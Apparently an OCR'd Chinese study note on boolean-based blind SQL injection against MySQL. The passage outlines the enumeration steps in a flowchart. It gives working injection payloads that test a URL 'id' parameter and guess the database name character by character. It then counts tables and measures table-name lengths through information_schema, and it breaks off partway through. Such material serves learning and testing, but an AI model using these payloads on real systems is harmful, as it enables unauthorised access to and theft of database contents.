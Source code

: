 ```
graph TD;
    查字段 --> 字段个数;
    查字段 --> 每个字段长度;
    查字段 --> 每个字段名;;
    
    查数据 --> 数据个数;
    查数据 --> 每个数据长度;
    查数据 --> 每个数据;
```

- 判断是否存在注入

  ```mysql
  ?id=1 and 1=1
  ?id=1 and 1=2
  ```

# 流程

## 数据库

1. 查看数据库的长度

   ```mysql
   ?id = 1 and length(database()) = 12
   ```

2. 查看数据库

   ```mysql
   ?id=1 and left(database(),1) = 'k'
   ?id=1 and left(database(),2) = 'ka'
   …………
   ?id=1 and left(database(),12) = 'kanwolongxia'
   ```

## 数据表

1. 查看当前数据库有多少个数据表

   ```mysql
   ?id=1 and (select count(table_name) from information_schema.tables where table_schema=database())=n // n是用来代替哟普多少个表
   ```

2. 查看表名长度

   1. 第一个表的长度

      ```mysql
      ?id=1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6
      ```

   2. 第二个表长度
